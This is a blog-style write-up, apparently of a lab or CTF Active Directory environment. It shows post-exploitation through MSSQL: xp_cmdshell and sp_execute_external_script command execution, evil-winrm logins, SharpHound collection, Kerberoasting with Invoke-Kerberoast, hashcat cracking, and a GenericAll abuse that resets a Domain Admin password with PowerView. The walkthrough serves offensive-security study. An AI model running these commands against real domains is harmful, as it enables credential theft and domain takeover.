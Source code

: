 ```yaml
---
title: Kerberoasting Using Mssql Server [ Abusing GenericAll ] 
author: r0b0tG4nG
date: 2022-01-13 01:33:00 +0000
categories: [Blogging, Exploiting]
tags: [writeups, mssql, impacket-mssqlclient, hashcat, xp_cmdshell, powerview, evil-winrm, kerberoast, bloodhound]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/149357946-9fd46ceb-e42d-4d76-9b0d-bc2a474ec637.png)
<br><br>

**> Information Gathering**<br>

From The previous writeup on <a href="https://r0b0tg4ng.github.io/posts/Abusing-MSSQL-Linked-Servers/">Abusing MSSQL Linked Servers</a>, we found credentials on the target. In this chapter, we will look at how we can perform kerberoast attacks through `MSSQL Server`. During our previous engagement, we found credentials using <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15">sp_execute_external_script</a>.<br>
```web.config
        <authentication mode="Forms">
            <forms name="login" loginUrl="/admin">
                <credentials passwordFormat = "Clear">
                    <user 
                        name="Administrator" 
                        password="EverybodyWantsToWorkAtP.O.O."
                    />
                </credentials>
            </forms>
        </authentication>
```
<br>

The question is what can we do with this credential?? Well, we are not out of options. I checked the ipaddress of the target `MSSQL Server` is running on using `sp_execute_external_script` command `EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("ipconfig");'; `. Looking at `IPV4` IP address, there was no service that we could connect to remotely with the credentials we have. So, i decided to dive deep into the `IPV6` address.<br>
![image](https://user-images.githubusercontent.com/67085453/149357971-62ddb9d1-f1a5-467f-93ac-af21677c3a47.png)<br>

A quick nmap scan was performed on the `IPV6` IP address. Port 5985 (Windows Remote Management) was open. Good news at last all we need to do is add the `IPV6` IP address to `/etc/hosts` file `dead:beef::1001  targetipv6`. Henceforth, when i type `targetipv6` i am referring to `dead:beef::1001` address.<br>
![image](https://user-images.githubusercontent.com/67085453/149357995-64d905cf-e354-4354-99ad-3a9775f413bd.png)<br>

I connected to `WinRM` using <a href="https://github.com/Hackplayers/evil-winrm">evilwinrm</a> tool. The command executed to connect to `WinRM` was `evil-winrm -i targetipv6 -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'`<br>
![image](https://user-images.githubusercontent.com/67085453/149358092-a9615c4f-e560-451f-96b4-ae37e846a737.png)<br>

Digging around using <a href="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS">winpeas</a> and some few post enumeration tools didn’t yield any positive results. So, i decided to enumerate the domain to find privilege escalation paths but i realized we can't query the domain from a
local administrator account from the errors i encountered.<br>
![image](https://user-images.githubusercontent.com/67085453/149358253-3b39b099-9097-4658-8f09-e777400dfa3c.png)<br>

However, the `SQL service account` can be use instead since service accounts
automatically impersonate the computer account, which are members of the domain and effectively a special type of user account. I logged into `MSSQL` using `impacket-mssqlclient` with the `SA` User we added in the <a href="https://r0b0tg4ng.github.io/posts/Abusing-MSSQL-Linked-Servers/">previous post</a> and enabled `xp_cmdshell` to query domain users with command `xp_cmdshell net users /domain`. <br>
![image](https://user-images.githubusercontent.com/67085453/149358283-48722ed2-2d42-4c46-9b73-80e9c1d1678f.png)<br>

`BloodHound` is an application developed with one purpose: to find relationships within an `Active Directory (AD) domain` to discover attack paths. With this said, we will grab `SharpHound.exe` from <a href="https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors">BloodHoundAD GitHub page</a>. Create the `C:\temp\` directory first then upload the `SharpHound.exe` to the target using our evil-winrm session.<br>
![image](https://user-images.githubusercontent.com/67085453/149358328-2fe15870-4bbe-43f8-bc1e-9e50ad550337.png)<br>

Then the next step is to collect all information about the `Active Directory (AD) domain` through mssql using the command `xp_cmdshell C:\temp\SharpHound.exe -C All --outputdirectory C:/temp`.<br>
![image](https://user-images.githubusercontent.com/67085453/149358361-d447e6d1-62e4-4e3c-98f3-78da446f5abc.png)<br>

Once information about the target `Active Directory (AD) domain` is collected and saved into a zip file, we then download the zip file using evil-winrm download command.<br>
![image](https://user-images.githubusercontent.com/67085453/149358379-23531855-f919-42be-abd0-7901ccaa0c76.png)<br>

Install `BloodHound GUI` and upload the zip file you downloaded. *Note: you can install bloodhound GUI from* <a href="https://bloodhound.readthedocs.io/en/latest/data-analysis/bloodhound-gui.html">BloodHound Docs</a>.<br>
![image](https://user-images.githubusercontent.com/67085453/149358407-1dbcbc96-34e6-4b1f-9135-f80f70e22561.png)<br>

After uploading the zip file to bloodhound UI for visualization. We can use pre-built queries to find any quick `privilege escalation vectors`. Clicking on the `Shortest Paths to Domain Admins from Kerberoastable Users` entry shows the following.<br>
![image](https://user-images.githubusercontent.com/67085453/149358427-1558189b-5f46-4e29-adc6-79af19030266.png)<br>

The user `p00_adm` is a member of `help desk` and has `GenericAll privileges` on the `Domain Admins group`. This means that we can add any user to `Domain Admins` if we have `p00_adm credentials`. To accomplish this, we need to kerberoast the `p00_adm` user and try to crack his hash. We can use the `Invoke-Kerberoast.ps1` from <a href="https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1">EmpireProject GitHub page</a>.<br>

**> What is Kerberoasting??:** Kerberoasting is a post-exploitation attack that extracts service account credential hashes from Active Directory for offline cracking. It is used to crack a Kerberos (encrypted password) hash using brute force techniques. If successful, it can crack NTLM hashes in a few hours and provide the adversary with a clear-text password<br>

Download the `Invoke-Kerberoast.ps1` script, upload it to `C:\temp\` directory using `Evil-winrm` session like we did to the `SharpHHound.exe` binary. Once we have the `.ps1` uploaded, we can invoke our `kerberoast attack` through `MSSQL` using the command `xp_cmdshell powershell.exe -c "Import-Module C:\temp\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat hashcat"`<br>
![image](https://user-images.githubusercontent.com/67085453/149358471-724a69a4-5f19-4db5-be2e-87cdd9ea9f9b.png)<br>
![image](https://user-images.githubusercontent.com/67085453/149358487-e840b805-3f39-42e8-868b-9830dc3fd182.png)<br>

We found two hashes `p00_hr` & `p00_adm`. Keep in mind that we are after `p00_adm` user hash therefore i copied the `p00_adm` user hash to a file and made sure that i deleted the spaces and empty lines from the hash. `p00_adm`. The hash can be cracked using Hashcat command `hashcat -m 13100 hashes /usr/share/seclists/Passwords/Keyboard-Combinations.txt --force`. Lucky us! we were able to crack the password. *Note: this took a very long time since i had to try a variety of wordlist until i got the  password* The password for `p00_adm` is `ZQ!5t4r`.<br>
![image](https://user-images.githubusercontent.com/67085453/149358516-37aeb491-2817-4814-b520-3069a62812aa.png)<br>

What else now?? well we have `p00_adm` user plaintext password and we can `impersonate` the `p00_adm` with the help of `PowerView`. How do we achieve this? first let's grab `PowerView.ps1` from <a href="https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView">PowerShellEmpire GitHub page</a> and upload it to the target using evil-winrm. Once The `PowerView.ps1` script is uploaded, the next thing to do is to import the file so we will have access to `PowerView` extended commands like `Add-DomainGroupMember`, `Get-DomainComputer`.....etc.<br>

All done?? what's next?? We need to use a credential object to impersonate `p00_adm` user. Execute this command<br>
```shell
$user='p00_adm'
$pass='ZQ!5t4r'
$p= ConvertTo-SecureString -AsPlainText $pass -force
$cred=New-Object System.Management.Automation.PSCredential -ArgumentList $user,$p
```
<br>

![image](https://user-images.githubusercontent.com/67085453/149358621-d2409d18-8cbb-497a-86ed-434add3a3487.png)<br>

After impersonating `p00_adm` user, i still had issues logging in so i searched for `Domain Admins` on the target using the command `get-netuser -DomainController dc -Credential $cred`. From this, i found out the user `mr3ks` is part of the `Domain Admins Group`.<br>
![image](https://user-images.githubusercontent.com/67085453/149358652-d8e5ee90-c4c7-4715-a148-6354cc374103.png)<br>

**> Abusing GenericALL**<br>

Looking back at the `BloodHound GUI`, to abuse `GenericAll`, i right-clicked on the `GenericAll` line, selected `help` and then `Abuse`. This Feature of `BloodHound GUI` explains how we can abuse this feature.<br>
![image](https://user-images.githubusercontent.com/67085453/149358680-5e81be5e-41ea-4e0e-8124-93c2e4e41b20.png)<br>

What can we do now? well, we can change the credentials for `mr3ks` user. The question is how do we do that?? remember i just said `BloodHound GUI` explains everything. I executed this command<br>
```shell
$Username = 'p00_adm'
$Password = 'ZQ!5t4r'
$Connect = ConvertTo-SecureString -AsPlainText $Password -Force
$Auth = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$Connect
Set-DomainUserPassword -Identity mr3ks -Password $Connect -Credential $Auth
```
<br>

![image](https://user-images.githubusercontent.com/67085453/149358712-4a44c04c-4ece-40de-8acf-b1a96dd91615.png)<br>

We encountered no errors that's good news to the eyes. Let's try to connect to the target through the target `IPV6` `Win-RM` service.  To achieve this, i executed `evil-winrm -i targetipv6 -u mr3ks -p 'ZQ!5t4r'`<br>
![image](https://user-images.githubusercontent.com/67085453/149358731-8f998768-a5e4-4d5a-982b-bc62e01cb4ef.png))<br>

 I hope you enjoyed the ride and also discovered something new. Kindly subscribe to my <a href="https://www.youtube.com/channel/UCSY-pfwuYspZFlRsO7vBfIQ"> YouTube channel</a> for more contents<br>
![image](https://user-images.githubusercontent.com/67085453/146535039-fc5cc779-43b1-4f0b-83c6-ad7129b54219.png).
